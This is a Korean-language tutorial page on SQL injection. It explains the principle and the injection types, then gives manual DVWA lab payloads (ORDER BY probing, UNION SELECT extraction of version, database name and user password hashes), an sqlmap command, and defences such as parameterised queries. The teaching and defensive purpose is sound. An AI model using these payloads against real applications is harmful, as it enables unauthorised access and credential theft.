

인젝션은 사용자 입력이 검증 없이 인터프리터(SQL, 셸, LDAP 등)로 전달될 때
발생한다. 그중 **SQL 인젝션(SQLi)**이 가장 고전적이고 파괴적이다.

## 원리 {#how}

애플리케이션이 입력을 쿼리 문자열에 그대로 이어붙이면, 공격자는 데이터를
넘어 **쿼리 구조 자체**를 바꿀 수 있다.

```sql
-- 취약한 코드: "SELECT * FROM users WHERE name='" + input + "'"
-- 입력: ' OR '1'='1
SELECT * FROM users WHERE name='' OR '1'='1'   -- 항상 참 → 인증 우회
```

## 유형 {#types}

| 유형 | 특징 |
|---|---|
| In-band (Union) | 결과가 화면에 직접 보임. `UNION SELECT`로 데이터 추출 |
| Blind (Boolean) | 참/거짓에 따라 응답 차이로 한 비트씩 추론 |
| Blind (Time) | `SLEEP()` 지연 시간으로 참/거짓 판별 |
| Out-of-band | DNS/HTTP 콜백으로 데이터 유출 |

## 탐지와 추출 흐름 {#flow}



## 수동 예시 (DVWA) {#manual}

```sql
-- 컬럼 수 확인
1' ORDER BY 2-- -
-- 버전·DB명 추출
1' UNION SELECT version(), database()-- -
-- 사용자·해시 추출
1' UNION SELECT user, password FROM users-- -
```

자동화는 **sqlmap**을 쓴다(인가된 대상만):

```bash
sqlmap -u "http://target/item?id=1" --batch --dbs
```

## 방어 {#defense}

- **파라미터화 쿼리(Prepared Statement)** — 근본 해법. 입력을 데이터로만 취급.
- **ORM 사용**, 입력 검증, 최소 권한 DB 계정, WAF는 보조 수단.
- 명령어 주입도 같은 원리 — 셸에 입력을 넘기지 말고 인자 배열로 실행한다.
